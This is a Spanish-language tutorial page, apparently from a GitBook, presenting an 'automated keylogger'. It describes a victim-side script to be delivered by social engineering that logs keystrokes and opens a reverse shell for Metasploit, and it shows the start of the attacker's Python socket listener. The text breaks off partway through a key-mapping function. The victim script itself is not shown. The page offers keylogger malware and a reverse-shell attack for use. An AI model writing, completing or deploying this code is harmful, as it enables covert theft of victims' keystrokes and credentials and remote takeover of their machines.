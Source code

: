 ```yaml
---
icon: keyboard
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Keylogger Automatizado

## <mark style="color:purple;">Contenido del script</mark>

Tendremos 2 scripts, uno que sera el que tendremos en nuestro host como modo servidor estando a la escucha de todas las teclas que se presionan visualizandolo a tiempo real y despues otro que sera el que tenga que ejecutar el ususario victima mediante ingenieria social, a parte el script de la victima genera automaticamente un `Reverse Shell` por lo que si queremos generar una shell a esa maquina tendremos que estar a la escucha con metasploit con el modulo `multi/handler`.

> server\_host.py

```python
import socket
import colorama
from colorama import Fore, Style, Back
import sys

# Inicializar colorama
colorama.init(autoreset=True)

# Dirección IP y puerto del servidor
HOST = '0.0.0.0'  # Escuchar en todas las interfaces de red
PORT = 7777       # Puerto actualizado

# Crear un socket para escuchar las conexiones entrantes
server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_socket.bind((HOST, PORT))
server_socket.listen(1)

# Imprimir el estado de escucha con colores
print(Fore.GREEN + Style.BRIGHT + f"\n{'='*60}")
print(Fore.GREEN + Style.BRIGHT + f"🟢 Escuchando en {HOST}:{PORT}...")
print(Fore.GREEN + Style.BRIGHT + f"{'='*60}\n")

# Aceptar la conexión del cliente
client_socket, client_address = server_socket.accept()
print(Fore.CYAN + Style.BRIGHT + f"🔗 Conexión establecida con {client_address}\n")
print(Fore.YELLOW + Style.BRIGHT + f"{'-'*60}")

# Función para simplificar las teclas
def simplify_key(key):
    key_mappings = {
        'Key.space': ' ',
        'Key.enter': '[ENTER]',
        'Key.tab': '[TAB]',
```